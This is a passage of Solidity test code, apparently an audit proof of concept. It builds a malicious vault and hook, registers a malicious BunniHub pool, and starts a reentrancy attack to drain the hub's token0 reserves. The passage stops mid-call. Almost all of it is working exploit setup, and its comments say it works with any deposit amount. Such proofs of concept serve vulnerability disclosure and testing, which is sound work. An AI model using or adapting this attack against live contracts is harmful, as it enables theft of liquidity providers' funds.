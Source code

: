 ```solidity
    token1.approve(address(maliciousVault), type(uint256).max);
    deal(address(token1), address(maliciousVault), 1 ether);

    // 3. Register the malicious pool to steal reserve balances
    (, PoolKey memory maliciousKey) = hub.deployBunniToken(
        IBunniHub.DeployBunniTokenParams({
            currency0: Currency.wrap(address(token0)),
            currency1: Currency.wrap(address(token1)),
            tickSpacing: TICK_SPACING,
            twapSecondsAgo: TWAP_SECONDS_AGO,
            liquidityDensityFunction: new MockLDF(address(hub), address(customHook), address(quoter)),
            hooklet: IHooklet(address(0)),
            ldfType: LDFType.STATIC,
            ldfParams: bytes32(abi.encodePacked(ShiftMode.BOTH, int24(-3) * TICK_SPACING, int16(6), ALPHA)),
            hooks: BunniHook(payable(customHook)),
            hookParams: "",
            vault0: ERC4626(address(USDCVault)),
            vault1: ERC4626(address(maliciousVault)),
            minRawTokenRatio0: 1e6,         // set to 100% to have all funds in raw balance
            targetRawTokenRatio0: 1e6,      // set to 100% to have all funds in raw balance
            maxRawTokenRatio0: 1e6,         // set to 100% to have all funds in raw balance
            minRawTokenRatio1: 0,           // set to 0% to trigger a deposit upon transferring 1 token
            targetRawTokenRatio1: 0,        // set to 0% to trigger a deposit upon transferring 1 token
            maxRawTokenRatio1: 0,           // set to 0% to trigger a deposit upon transferring 1 token
            sqrtPriceX96: TickMath.getSqrtPriceAtTick(4),
            name: bytes32("MaliciousBunniToken"),
            symbol: bytes32("BAD-BUNNI-LP"),
            owner: address(this),
            metadataURI: "metadataURI",
            salt: bytes32(keccak256("malicious"))
        })
    );

    // 4. Make a deposit to the malicious pool to have accounted some reserves of vault0 and initiate attack
    uint256 initialToken0Deposit = 10_000e6; // Using a big amount in order to not execute too many reentrancy iterations, but it works with whatever amount
    deal(address(token0), address(this), initialToken0Deposit);
    deal(address(token1), address(this), initialToken0Deposit);
    token0.approve(customHook, initialToken0Deposit);
    token1.approve(customHook, initialToken0Deposit);
    CustomHook(payable(customHook)).depositInitialReserves(
        address(token0), initialToken0Deposit, address(hub), poolManager, maliciousKey, true
    );
    CustomHook(payable(customHook)).mintERC6909(address(token1), initialToken0Deposit);

    console.log(
        "BunniHub token0 raw balance before",
        poolManager.balanceOf(address(hub), Currency.wrap(address(token0)).toId())
    );
    console.log("BunniHub token0 vault reserve before", ERC4626(USDCVault).balanceOf(address(hub)));
    console.log(
        "MaliciousHook token0 balance before",
        poolManager.balanceOf(customHook, Currency.wrap(address(token0)).toId())
    );
    maliciousVault.setupAttack();
    CustomHook(payable(customHook)).initiateAttack(
```